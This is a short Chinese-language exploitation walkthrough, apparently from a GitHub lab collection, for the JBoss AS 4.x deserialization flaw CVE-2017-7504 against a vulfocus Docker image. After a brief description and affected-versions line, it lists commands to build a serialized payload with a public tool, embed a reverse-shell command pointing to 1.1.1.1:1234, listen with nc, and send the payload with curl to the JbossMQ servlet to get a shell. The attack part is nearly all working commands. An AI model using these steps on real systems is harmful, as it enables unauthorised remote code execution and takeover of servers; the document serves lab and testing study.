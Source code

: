 # JBoss 命令执行漏洞（CVE-2017-7504）by [Vdeem](https://github.com/Vdeem)

## 一、漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

## 二、影响版本

Red Hat JBoss Application Server <=4.x

## 三、利用流程

1 对应镜像名称为:vulfocus/jboss-cve_2017_7504![](./1.png)

2 利用工具地址：https://github.com/joaomatosf/JavaDeserH2HC

3 编译并生成序列化数据

```bash
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java
```

4 设置反弹ip与端口

```
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/1.1.1.1/1234 0>&1"
```

5 服务器监听

```
nc -lvp 1234
```

6 发送数据包

```
curl http://127.0.0.1:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser
```

7 可成功反弹shell
